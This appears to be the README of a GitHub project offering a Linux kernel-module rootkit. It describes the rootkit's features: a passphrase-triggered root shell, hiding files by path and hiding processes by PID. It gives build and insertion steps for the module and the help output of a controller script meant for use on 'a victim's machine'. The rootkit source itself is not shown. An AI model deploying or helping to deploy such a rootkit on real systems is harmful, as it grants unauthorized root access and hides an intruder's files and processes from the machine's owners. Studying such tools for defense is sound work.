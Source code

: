 <div align="center">
  <img src="https://github.com/aesophor/satanic-rootkit/blob/master/.meta/banner.jpg">
  <b>CAUTION: Do NOT test this on physical machines!</b>
</div>

## Overview
* Local privilege escalation (grant root shell)
* Hide directories or files **by absolute path**
* Hide processes by PID
* ...

## satanist.py
After installing the kernel module `satan.ko` on a victim's machine, one can use `satanist.py` to command the rootkit.
```
> ./satanist.py --help                 
usage: ./satanist.py <command> [argument]

-su --privesc <passphrase>       -- Acquire root shell.
-fh --file-hide <path>           -- Hide a file/directory by absolute path.
-fu --file-unhide <path>         -- Unhide a file/directory by absolute path.
-ph --proc-hide <pid>            -- Hide a process by PID.
-pu --proc-unhide <pid>          -- Unhide a process by PID.

-h --help                        -- Help message.
-v --version                     -- Version info.
```

## Tested On
* Debian 9 stretch 4.9.0-11

## Build Requirements
* gcc
* GNU Make
* Linux headers

## Usage
1. Build kernel module.
```
$ git clone https://github.com/aesophor/satanic-rootkit.git
$ cd satanic-rootkit
$ make
```

2. Insert kernel module as root.
```
root# insmod satan.ko
```

3. Run satanist.py as normal user to command the rootkit.
```
$ ./satanist.py --help
```

## License
Available under [GPL-2.0 License](https://github.com/aesophor/satanic-rootkit/blob/master/LICENSE)
